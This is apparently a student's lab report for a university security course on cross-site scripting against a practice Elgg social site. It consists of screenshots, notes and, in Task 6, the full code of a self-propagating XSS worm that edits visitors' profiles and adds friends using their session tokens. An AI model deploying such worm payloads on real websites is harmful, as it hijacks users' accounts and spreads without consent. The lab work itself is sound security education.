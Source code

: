 
<div align="center">Lab 02 | CSCI 476
  
Zoe Norden | s68k193() 
</div>


## Task 1

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.1.png)

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.png)

I wasn't sure if I need tod o the more advanced thing with the separate file or anything. Given that it didn't say so in the instructions, I will assume I did not need to do so. So far this seems very similar to the SQL injection thing that we did on the last lab.

Is it possible to do a more advanced version of this using the larger script file thing and then insert a video or something? I wouldn't be able to get it to work with the existing field because I'd run into a character limit on my space, but I should be able to run something if I tossed it into a file to run. I am curious if I could get the actual video to pop up or if it'd just be the link to the video, which wouldn't be as funny. 

## Task 2

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.1.png)

I still don't quite understand the dangers behind cookies. 

## Task 3

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.1.png)

I can kind of see why knowing this info would be dangerous though. 


## Task 4

### Task 4.1

Our first image is pre-friend Boby and the second image is after we've added Boby as a friend. 
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.2.png)

Now here's a code block of the code that I inserted. There is also a screenshot of the full code snippet below that textblock of code. From what I understand, this code looks at the url and then goes to add friend withthe id number of 57. 

`var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=57" + token + ts;`

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.1.png)


### Task 4.2

For task 4.2 I was unable to successfully re-add Boby as a friend. To try and accomplish this, I removed the code from the "edit HTML" section and just directly pasted it in Samy's bio. I also removed Boby as a friend before I used this attack to verify things. I was unable to readd Boby as a friend if I just pasted it in the normal About me field. As you can see from the screenshots, I am still friendless. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.1.png)

## Task 5


### Task 5.1

Once again, we will be targetting poor Boby. As you can see from the screenshot below, Boby has a very poor MySpace-esque profile page. Let's see if we can't spice things up. You know, once he visits Samy's profile.

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.1.png)

Okay, so I had to create the variable desc which is our description variable. This is because I honestly couldn't tell if the `var name, guid, ts, token` was actually doing anything so I created the `var desc` which would directly edit the profile of poor Boby. Full code snippet is below. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.2.png)


### Task 5.2

You need this line of code because if you didn't have it, you would attack yourself. So this is basically saying that if the user id is not Samy's, then we continue with the attack, but if it is, we do not do anything. This was probably the hardest part for me to figure out for some reason because I couldn't figure out what Samy's GUID was for the life of me. 

## Task 6

```js

<script type="text/javascript" id="worm">
window.onload = function(){

var headerTag = "<script id=\ "worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML;
var tailTag="</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

var accesslevel="&accesslevel[description]=2";
var description="&description="+wormCode;
var briefdescription="&briefdescription=Zoe was here again";

var content=token +ts +userName + description + briefdescription+accesslevel+guid;
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
Ajax.send(content);

var Ajax2=null;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;
Ajax=new XMLHttpRequest();
Ajax2.open("GET",sendurl,true);
Ajax2.setRequestHeader("Host","www.xsslabelgg.com");
Ajax2.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
Ajax2.send();
}
</script>

```
